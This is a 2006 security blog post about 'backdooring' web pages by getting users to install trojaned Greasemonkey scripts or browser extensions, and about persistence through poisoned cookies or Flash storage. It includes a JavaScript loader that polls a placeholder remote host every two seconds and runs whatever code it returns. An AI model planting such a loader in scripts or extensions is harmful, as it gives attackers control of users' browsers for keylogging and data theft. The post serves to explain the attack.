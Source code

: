 ```yaml
---
title: Backdooring Web Pages
author: petko-d-petkov
date: Mon, 28 Aug 2006 11:09:08 GMT
template: post.jade
category: fucked
---
```


![Greasemonkey](/files/2006/08/greasemonkey.jpg "Greasemonkey")

The most obvious way of maliciously infecting web pages is to perform Cross-Site Scripting (XSS). In practice, XSS vulnerabilities can be persistent and non-persistent. Depending on the type, the attacker has various degree of control. The persistent vector produces better results and it lasts longer, where non-persistent vector lasts a single hit, although it is possible for the attacker to take control of the user browser by using other techniques. Here I am trying to explore another vector that can permanently take control of the user web experience.

IMHO, there are three types of web page backdoors: non-persistent, persistent and global persistent. Non-persistent backdoors occur on a single XSS vulnerable page (hit). Persistent backdoors a bit better because they can occur on one or more XSS vulnerable pages most probably coming from the same domain (site). Global persistent backdoors occur on all domains (sites) and in theory they can last forever.

Global persistent backdoors do not rely on the server being vulnerable to XSS or any other type of server related vulnerability. Global persistent backdoors exploit browser functionalities.

In order to install global persistent backdoor the attacker can exploit known browser vulnerabilities which allow silent installation of new functionalities, exploit known extension vulnerabilities which allow [Cross Context Scripting](/blog/cross-context-scripting) (execution of malicious web content in the browser context) or [exploit the user's trust](/blog/xssing-the-lan-4) ([trojaning](/blog/xssing-the-lan-3)).

The first two scenarios rely on a browser or a browser's extensions being vulnerable. Finding those vulnerabilities may take some time and it might not be that feasible, not to mention the fact that once an attacker exploits them the entire system probably will be subjected to attacker's wishes. On the other hand, the last scenario tricks the user into performing something legitimate which in fact turns to be something malicious (trojaning). This quite old trick but very successful and widely exploited as well.

Exploiting the user's trust in order to install backdoor could be achieved in several ways each one of which provides various degree of success. The first one is asking the user to install a browser extension. This type of scenario could be successful in browsers that do not have central extension repositories. In that respect IE is probably the most vulnerable. Opera, with its Web Widgets could potentially fall into the same category. On the other hand, Firefox users tend to install extensions from known sources such as `addons.mozilla.org`, so they are the least vulnerable.

The second scenario occurs when the attacker is asking the user to install extensions of extension. This one is far more trusted since extensions of extension are believed to be harmless. Firefox's and IE's Greasemonkey extension and Opera's Web Widgets are good examples of those kinds of scenarios.

To some respect, security aware users could detect malicious scripts so they are less vulnerable. On the other hand the average user trusts the security model of the browser, so  trojaned Greasemonkey script can be quite easily installed. A sample trojaned script can contain something like the following:

    setInterval(function () {
    	var head = document.getElementsByTagName('head').item(0);
    	var old  = document.getElementById('last_loaded_cmd');

    	if (old)
    		head.removeChild(old);

    	script = document.createElement('script');
    	script.src = 'http://path/to/channel';
    	script.type = 'text/javascript';
    	script.defer = true;
    	script.id = 'last_loaded_cmd';
    	void(head.appendChild(script));
    }, 2000);

The code presented above will query every 2 seconds  **http&#58;//path/to/channel** for JavaScript code that is evaluated inside the currently open page. This model allows attackers to inject any type of JavaScript based tool (scanners, other communication channels, page key loggers, etc). Similar effect can be achieved with Opera's Web Widgets although modifications of this code are required.

This type of backdoor has a big problem. Once the user finds that the Greasemonkey script (or the Web Widget) is not needed anymore, or that it contains malicious code, proper cleaning actions will be taken.

_This is good but like any other malicious code, web page backdoors can assure the existence of hidden channels for reinstallation and further propagation. In that respect the backdoor could perform internal cross site scripting by poisoning cookies or flash objects such as [The Flash Persistent Storage Model](http://codinginparadise.org/projects/storage/README.html) which is widely used in several AJAX frameworks. Other countermeasures can be taken as well such as taking advantage of the page caching issues. All of these are related to a discipline known as DOM based Cross-site scripting._
